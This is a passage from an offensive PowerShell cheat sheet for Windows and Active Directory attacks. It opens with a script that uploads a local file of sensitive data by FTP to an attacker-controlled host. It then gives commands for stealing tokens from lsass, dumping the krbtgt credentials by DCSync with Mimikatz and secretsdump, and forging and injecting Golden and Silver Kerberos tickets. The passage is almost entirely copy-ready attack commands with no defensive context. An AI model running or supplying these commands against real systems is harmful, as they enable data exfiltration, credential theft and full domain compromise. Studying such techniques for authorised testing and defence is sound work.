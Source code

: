 * **Upload Data via FTP**:

```powershell
$ftp = [System.Net.FtpWebRequest]::Create("ftp://<attack_ip>/SensitiveData.txt")
$ftp.Credentials = New-Object System.Net.NetworkCredential("username", "password")
$ftp.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile
$ftpStream = $ftp.GetRequestStream()
$localFile = "C:\SensitiveData.txt"
[byte[]]$buffer = Get-Content -Path $localFile -AsByteStream
$ftpStream.Write($buffer, 0, $buffer.Length)
$ftpStream.Close()
```

## 9. Post-Exploitation Techniques&#x20;

#### 9.1 Steal Access Tokens&#x20;

* **Steal a Token from a Process (e.g., lsass.exe)**:

```powershell
Invoke-TokenManipulation -CreateProcess "cmd.exe" -ProcessId <PID_of_lsass>
```

#### 9.2 DCSync Attack&#x20;

* **Perform a DCSync Attack to Dump Credentials**:

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain_name> /user:krbtgt"'
```

* **Use SecretsDump (via impacket)**:

```powershell
secretsdump.py -just-dc-user krbtgt <domain>/<username>:<password>@<target_ip>
```

#### 9.3 Golden Ticket Attack&#x20;

* **Create a Golden Ticket using Mimikatz**:

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "kerberos::golden /domain:<domain_name> /sid:<domain_sid> /krbtgt:<krbtgt_hash> /user:Administrator /ticket:<path_to_ticket>"'
```

* **Inject the Golden Ticket**:

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt golden.kirbi"'
```

#### 9.4 Silver Ticket Attack&#x20;

* **Create a Silver Ticket for a Specific Service**:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:<ServiceUser> /domain:<Domain> /sid:<Domain_SID> /target:<Target_SPNSuffix> /rc4:<NTLM_Hash> /service:<ServiceName> /ticket:silver.kirbi"'
```
